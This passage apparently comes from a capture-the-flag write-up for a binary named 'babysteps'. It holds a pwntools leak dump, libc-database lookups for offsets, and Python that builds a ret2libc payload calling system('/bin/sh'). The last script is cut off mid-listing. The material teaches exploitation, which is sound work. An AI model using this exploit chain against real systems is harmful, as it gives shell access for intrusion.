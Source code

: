 ```
(From pwntools context 'debug')

    00000220  79 20 6e 61  6d 65 3f 0a  60 14 de f7  66 90 04 08  │y na│me?·│`···│f···│
                                        ^^^^^^^^^^^
    00000230  40 fd d8 f7  86 90 04 08  0a 20 20 20  20 20 20 20  │@···│····│·   │    │
```

As previous section, we get the puts leaked address, which is 0xf7de1460.

So, using blukat in terminal, we get all we need to pwn : 

```sh
> /opt/libc-database/find puts 0xf7de1460
ubuntu-old-glibc (libc6_2.26-0ubuntu2.1_amd64)
ubuntu-old-glibc (libc6_2.26-0ubuntu2_amd64)
debian-glibc (libc6_2.31-13+deb11u3_i386)
ubuntu-old-eglibc (libc6-i386_2.13-20ubuntu5_amd64)
> /opt/libc-database/dump libc6_2.31-13+deb11u3_i386
offset___libc_start_main_ret = 0x1ee46
offset_system = 0x00045040
offset_dup2 = 0x000f2be0
offset_read = 0x000f1f70
offset_write = 0x000f2010
offset_str_bin_sh = 0x18c338
```

```sh
> ls /opt/libc-database/db/libc6_2.31-13+deb11u3_i386*
/opt/libc-database/db/libc6_2.31-13+deb11u3_i386.info
/opt/libc-database/db/libc6_2.31-13+deb11u3_i386.so
/opt/libc-database/db/libc6_2.31-13+deb11u3_i386.symbols
/opt/libc-database/db/libc6_2.31-13+deb11u3_i386.url
```

Note that the dump command is optional, as we use this find result with pwntools.

```py
# From a first leak : 
libc = ELF('/opt/libc-database/db/libc6_2.31-13+deb11u3_i386.so')

# Or if we run locally, we can just :
# libc = elf.libc

libc.address = leak_puts - libc.symbols.puts

payload2 = cyclic(offset)
payload2 += p32(libc.symbols.system)
payload2 += p32(rop.ebx.address)
payload2 += p32(next(libc.search(b'/bin/sh')))
```

# Script

```py
from pwn import *

elf = ELF('./babysteps')
context.binary = elf
rop = ROP(elf)

offset = cyclic_find(0x61616168)

payload = cyclic(offset)
payload += p32(elf.plt.puts)
payload += p32(rop.ebx.address)
payload += p32(elf.got.puts)
```